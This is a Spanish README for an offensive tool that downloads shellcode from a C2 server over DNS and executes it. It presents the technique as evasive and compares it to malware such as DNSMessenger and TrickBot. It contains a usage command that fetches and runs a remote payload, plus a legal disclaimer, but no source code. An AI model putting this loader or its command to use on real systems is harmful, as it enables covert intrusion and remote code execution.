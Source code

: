 # DNSShellcodeLoader

DNSShellcodeLoader es una herramienta diseñada para cargar shellcode de forma remota a través de consultas DNS. Esta herramienta puede ser útil en escenarios de prueba de penetración, investigación de seguridad y desarrollo de exploits.

## Descripción

La carga remota de shellcode a través de consultas DNS proporciona un método discreto y evasivo para obtener y ejecutar código malicioso en sistemas comprometidos. Esta técnica aprovecha el tráfico DNS saliente, que es común y a menudo pasa desapercibido por los sistemas de seguridad de red.

DNSShellcodeLoader simplifica el proceso de descarga y ejecución de shellcode, permitiendo a los usuarios especificar un nombre de dominio del servidor C2 y el nombre del archivo de shellcode. La herramienta generará una URL ofuscada que se utilizará para la descarga de la shellcode. Además, DNSShellcodeLoader incluye técnicas de seguridad para validar la integridad de la shellcode descargada y manejar errores de descarga de manera robusta.

## Uso

Para usar DNSShellcodeLoader, sigue estos pasos:

1. Ejecuta la herramienta proporcionando el nombre de dominio del servidor C2 y el nombre del archivo de shellcode como argumentos de línea de comandos.
    ```
    DNSShellcodeLoader.exe example.com shellcode.bin
    ```

2. La herramienta generará una URL ofuscada para la descarga de la shellcode y realizará la descarga desde el servidor remoto.

3. Una vez descargada la shellcode, se validará su integridad y se ejecutará en el sistema local.


Algunos malware conocidos han utilizado técnicas de descarga de shellcode a través de consultas DNS y técnicas de evasión y polimorfismo para eludir la detección y llevar a cabo sus actividades maliciosas. Algunos ejemplos incluyen:

DNSMessenger: Este malware, descubierto en 2017, utilizaba consultas DNS para comunicarse con servidores de comando y control (C2) y descargar payloads maliciosos. Esta técnica le permitía evadir la detección y el bloqueo por parte de los sistemas de seguridad que no inspeccionaban el tráfico DNS de manera adecuada.

Emotet: Emotet es un troyano bancario y un dropper de malware que ha utilizado técnicas de evasión avanzadas para evitar la detección. Entre estas técnicas se incluyen el uso de cargas útiles cifradas, el polimorfismo para cambiar constantemente su firma y la utilización de dominios generados de forma aleatoria para descargar componentes maliciosos a través de consultas DNS.

TrickBot: TrickBot es un troyano bancario que ha sido utilizado en ataques dirigidos a instituciones financieras y organizaciones empresariales. Utiliza técnicas avanzadas de evasión, incluyendo el polimorfismo para modificar su código y el uso de dominios generados de manera aleatoria para la comunicación con sus servidores C2 a través de consultas DNS.

Zloader: Zloader es un troyano bancario que utiliza técnicas de evasión y polimorfismo para evitar la detección por parte de los sistemas de seguridad. Utiliza consultas DNS para la comunicación con sus servidores C2 y descarga payloads maliciosos, lo que le permite eludir los controles de seguridad que no inspeccionan el tráfico DNS de manera adecuada.
**Nota:** Asegúrate de tener permiso para realizar pruebas de penetración y ejecutar código malicioso en sistemas antes de utilizar esta herramienta en un entorno de producción.

## Aviso legal

Esta herramienta se proporciona únicamente con fines educativos y de investigación. El uso indebido de DNSShellcodeLoader puede ser ilegal y está estrictamente prohibido. El autor y los colaboradores no se hacen responsables del uso indebido de esta herramienta.


